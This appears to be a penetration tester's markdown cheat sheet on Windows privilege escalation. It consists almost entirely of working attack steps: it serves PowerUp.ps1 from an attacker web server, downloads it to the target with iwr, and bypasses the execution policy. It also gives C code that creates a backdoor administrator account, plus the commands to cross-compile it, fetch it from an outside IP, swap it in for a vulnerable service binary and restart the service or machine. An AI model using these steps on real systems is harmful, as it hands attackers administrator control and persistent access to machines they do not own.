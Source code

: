 # Windows PrivEsc
Before attempting to leverage the techniques laid out below the enumeration tactics from the `enumeration/windows.md` section should be leveraged.

## Automatic PrivEsc

### Binary Hijacking (PowerUp.ps1)
Nb. This tool (like most) should not be trusted implicitly always and if it fails where enumeration suggests it ought to have succeeded then manual techniques should be employed.
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Install-ServiceBinary -Name 'vulnerable-service'
```

## Manual PrivEsc

### Binary Hijacking
Save the following `C` file on Kali host as `adduser.c`:
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user ggilligan12 password123! /add");
  i = system ("net localgroup administrators ggilligan12 /add");
  
  return 0;
}
```
Cross-compile like so, then start the ever faithful web server:
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
python3 -m http.server 80
```
On the target machine grab the binary:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```
Move the original binary to a safe place, and replace it with our payload:
```powershell
move C:\path\to\vulnerable\binary.exe binary.exe
move .\adduser.exe C:\path\to\vulnerable\binary.exe
```
Finally restart the service:
```powershell
net stop vulnerable-service
```
If that fails try restarting the machine altogether, leveraging the possiblity that the service will start automatically on startup (verifying this is the case can be done with the relevant command in the `enumeration/windows.md` section):
```powershell
shutdown /r /t 0
```